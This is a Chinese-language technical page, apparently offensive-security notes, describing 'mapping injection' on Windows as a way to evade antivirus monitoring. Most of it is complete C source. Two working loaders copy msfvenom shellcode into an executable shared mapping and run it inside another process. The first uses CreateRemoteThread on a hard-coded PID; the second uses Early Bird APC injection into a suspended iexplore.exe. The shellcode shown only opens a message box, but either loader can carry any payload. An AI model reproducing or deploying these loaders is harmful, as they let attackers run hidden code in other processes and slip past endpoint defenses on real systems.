 ```yaml
---
description: Mapping Injection
---
```


# Mapping Injection

## 简介

映射注入是一种内存注入技术，可以避免使用一些经典注入技术使用的API,如VirtualAllocEx,WriteProcessMemory等被杀毒软件严密监控的API，同时创建Mapping内核对象本质上属于申请一块物理内存，而申请的物理内存又能比较方便的通过系统函数直接映射到进程的虚拟内存里，这也就避免使用经典写入函数，增加了隐蔽性。

![](../.gitbook/assets/image%20%2818%29.png)

## 注入流程

1. 在注入进程创建mapping
2. 将mapping映射到注入进程虚拟地址
3. 往被映射的虚拟地址写入shellcode
4. 打开被注入进程句柄
5. 将mapping映射到被注入进程虚拟地址
6. 创建远程线程

## 代码实现

PS:CreateFileMapping存在多种用法,并非只有这一种。

```text
#include <windows.h>
#include <stdio.h>
#pragma comment (lib, "OneCore.lib")


//msfvenom -p windows/x64/messagebox -e x64/xor_dynamic -i 15 EXITFUNC=thread  -f c
unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
"\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e\x4c\x8d"
"\x85\x2b\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
"\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x48\x65\x6c\x6c\x6f"
"\x2c\x20\x66\x72\x6f\x6d\x20\x4d\x53\x46\x21\x00\x4d\x65\x73"
"\x73\x61\x67\x65\x42\x6f\x78\x00";

int main(int argc, char** argv)
{

	

	HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(shellcode), NULL);

	LPVOID lpMapAddress = MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, sizeof(shellcode));

	memcpy((PVOID)lpMapAddress, shellcode, sizeof(shellcode));

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 19752);

	LPVOID lpMapAddressRemote = MapViewOfFile2(hMapping, hProcess, 0, NULL, 0, 0, PAGE_EXECUTE_READ);

	HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpMapAddressRemote, NULL, 0, NULL);

	UnmapViewOfFile(lpMapAddress);
	CloseHandle(hMapping);
	return 0;
}
```

## 扩展与优化

在前面的章节中说过CreateRemoteThread这样敏感的API也会被杀毒软件重点关注，那么我们同时可以使用别的代码执行方式，比如说APC注入和Early Bird等注入技术，mapping注入技术也可以作为一种非常规的shellcode写入技术使用，我们并不用拘泥与常规的使用方式，也可以与已有技术组合出新的代码执行链。

* 与Early Bird技术组合

```text
#include <windows.h>
#include <stdio.h>
#pragma comment (lib, "OneCore.lib")


//msfvenom -p windows/x64/messagebox -e x64/xor_dynamic -i 15 EXITFUNC=thread  -f c
unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
"\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e\x4c\x8d"
"\x85\x2b\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
"\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x48\x65\x6c\x6c\x6f"
"\x2c\x20\x66\x72\x6f\x6d\x20\x4d\x53\x46\x21\x00\x4d\x65\x73"
"\x73\x61\x67\x65\x42\x6f\x78\x00";

	int main() {
		STARTUPINFO si = { 0 };
		PROCESS_INFORMATION pi = { 0 };
		si.cb = sizeof(STARTUPINFO);
		HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(shellcode), NULL);

		LPVOID lpMapAddress = MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, sizeof(shellcode));

		memcpy((PVOID)lpMapAddress, shellcode, sizeof(shellcode));

		CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, (LPSTARTUPINFOA)&si, &pi);

		LPVOID lpMapAddressRemote = MapViewOfFile2(hMapping, pi.hProcess, 0, NULL, 0, 0, PAGE_EXECUTE_READ);

		QueueUserAPC((PAPCFUNC)lpMapAddressRemote, pi.hThread, NULL);
		ResumeThread(pi.hThread);
		CloseHandle(pi.hThread);
		CloseHandle(hMapping);
		UnmapViewOfFile(lpMapAddress);
		return 0;
	}

```

![](../.gitbook/assets/image%20%2817%29.png)

* github:[https://github.com/idiotc4t/Mapping-injection](https://github.com/idiotc4t/Mapping-injection)

## LINKS

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile2" %}



